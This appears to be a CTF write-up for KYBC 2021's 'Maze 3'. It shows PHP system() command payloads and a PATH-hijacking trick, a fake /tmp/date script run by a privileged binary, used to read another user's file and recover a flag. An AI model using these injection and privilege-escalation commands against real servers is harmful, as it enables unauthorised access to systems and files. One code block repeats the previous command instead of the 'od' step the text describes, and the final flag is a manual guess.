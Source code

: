 Title: KYBC 2021 - Maze 3 Writeup
Date: 2021-03-24
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-3-writeup
Summary: Writeup for Maze 3 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 2]({filename}/CTF/kybc-yogosha-maze2.md) first_

Third maze, third user. Let's check what's in `home/ctf_user3`

```
<?php system('ls -al /home/ctf_user3'); ?>
```

It looks like ctf_user2 owns `image.txt` and `RAnd0m`. Hovewer, neither concatenating the content of `image.txt` nor running the `RAnd0m` executable bring anything useful.

Let's try to inspect the binary then with the good ol' `strings`

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

No luck. What about `od` then?

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```
Well that worked. Now I only need to figure out how to get out a proper hexdump from it. After a bit of digging, the `man` page comes to the rescue and provides with the syntax I need.

```
<?php system('echo "od -A x -t x1z -v /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Let's copy the hex dump into a txt file in my machine, recreate the binary and finally run `strings` on it

```
xxd -r -p rand.txt out.bin
strings out.bin
```

One of the strings seems to match the flag pattern `pvkq{dbiH._dy_pvkqH.E.H.U.H._wo_?}`.

Running it through a [ROT decoder](http://theblob.org/rot.cgi?) gives me `flag{tryX._to_flagX.U.X.K.X._me_?}`. Since the flag doesn't look too right and the system doesn't accept anyway, let's assume I probably messed up something while tinkering with `od` and manually fix it: `flag{try_to_flag_me_?}`.
